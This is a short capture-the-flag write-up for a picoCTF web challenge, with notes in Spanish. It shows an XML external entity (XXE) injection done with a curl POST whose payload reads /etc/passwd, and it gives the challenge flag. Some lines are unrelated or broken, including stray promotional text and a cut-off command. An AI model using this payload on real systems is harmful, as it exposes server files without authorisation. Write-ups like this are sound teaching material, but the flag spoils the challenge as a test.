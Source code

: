 # 2 - SOAP

## Descripcion:
* The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
* XML external entity Injection

## Solucion:
* http://saturn.picoctf.net:64497/
* <strong>Special Info::::</strong> Created By security and privacy experts
* <strong>Special Info::::</strong>
University in Kigali, Rwanda offereing MSECE, MSIT and MS EA
* curl -X POST http://saturn.picoctf.net:64497/ \
* curl -X POST http://saturn.picoctf.net:64497/data -H "Content-Type: application/xml" -d "<?xml version=\"1.0\"?* ><!DOCTYPE data [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><data><ID>&xxe;</ID></data>"
* picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}

## Notas:
* vemos la pagina web
* entramos a network en la inspeccion de codigo y vemos que pasa alli al seleccionar los 3 parametrso
* como no pasa nada pero nos da la informacion de que podemos usar curl -x lo hacemos
* vemos que si nos dice la informacion que alli se esta almacenando intentamos con get pero tampoco no dice nada
* asi que extraemos toda la informacion de la coneccion de la aplicacion ya que verificamos que no necesitamos permisos
* nos da la bandera

## Referencias: